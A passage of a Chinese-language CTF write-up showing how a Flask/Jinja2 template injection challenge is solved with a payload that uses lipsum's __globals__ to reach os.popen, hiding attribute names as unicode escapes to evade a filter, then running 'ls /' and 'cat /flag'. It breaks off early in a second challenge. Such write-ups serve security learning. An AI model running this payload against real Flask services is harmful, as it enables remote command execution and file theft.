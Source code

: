 再试试字典：__globals__

```plain
\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f
```

得到

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1737832712618-303f5e65-865f-42fd-8a66-293c92cfb6a1.png)

其中

<font style="color:rgb(48, 49, 51);">使用flask里的lipsum方法，来</font><font style="color:rgb(77, 77, 77);">引用popen，查目录，</font><font style="color:rgb(48, 49, 51);">执行命令</font>

```plain
lipsum|attr("__globals__").get("os").popen("ls").read()
```

即

```plain
url={%print(lipsum|attr(%22\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f%22)|attr(%22\u0067\u0065\u0074%22)(%22os%22)|attr(%22\u0070\u006f\u0070\u0065\u006e%22)(%22\u006c\u0073\u0020\u002f%22)|attr(%22\u0072\u0065\u0061\u0064%22)())%}
```

其中

__globals__：\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f

get：\u0067\u0065\u0074

popen：\u0070\u006f\u0070\u0065\u006e

read：\u0072\u0065\u0061\u0064

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1737832992491-9fbd933c-e35d-4f2c-b203-8354d20aa3b4.png)

所以把popen("ls")中的ls 改为cat /flag即可得到flag

cat /flag：\u0063\u0061\u0074\u0020\u002f\u0066\u006c\u0061\u0067\u0020

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1737834033295-d7952507-cebe-4654-bd80-e1f6b3e88842.png)

## （二）<font style="color:rgb(33, 37, 41);">[NewStarCTF 2023 公开赛道]flask disk</font>
这道题的一开始已经提示我们端口为5000

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1737877965836-7a3ac472-8dd6-480f-a6aa-3371a59081fa.png)

一进来是这个页面

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1737878183154-8e83ed8c-3433-4fc7-9c2b-2e59c175ac51.png)

打开list files发现有这个文件

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1737878221076-7b5f0d8e-e6a6-424f-beb4-693215f920d2.png)
